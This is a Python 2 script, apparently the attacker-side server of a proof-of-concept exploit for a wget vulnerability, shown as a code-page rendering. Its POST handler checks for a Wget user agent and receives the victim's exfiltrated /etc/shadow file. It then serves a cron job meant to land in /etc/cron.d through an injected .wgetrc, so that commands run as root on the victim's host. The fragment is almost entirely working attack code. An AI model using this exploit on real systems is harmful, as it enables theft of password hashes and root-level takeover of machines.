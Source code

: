 ```python
       print "Sending redirect to %s \n"%(new_path)
       self.send_header('Location', new_path)
       self.end_headers()

   def do_POST(self):
       # In here we will receive extracted file and install a PoC cronjob

       print "We have a volunteer requesting " + self.path + " by POST :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
	  print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       content_len = int(self.headers.getheader('content-length', 0))
       post_body = self.rfile.read(content_len)
       print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)

       print "Sending back a cronjob script as a thank-you for the file..." 
       print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
       self.send_response(200)
       self.send_header('Content-type', 'text/plain')
       self.end_headers()
       self.wfile.write(ROOT_CRON)

       print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"

       return

HTTP_LISTEN_IP = '192.168.57.1' # change this
HTTP_LISTEN_PORT = 80 # change this
FTP_HOST = '192.168.57.1' # change this
FTP_PORT = 21 # change this

ROOT_CRON = "* * * * * root /usr/bin/id > /root/hacked-via-wget \n" # change this

handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print "Ready? Is your FTP server running?"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
   print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
   print "FTP is down :( Exiting."
   exit(1)

print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

handler.serve_forever()
```
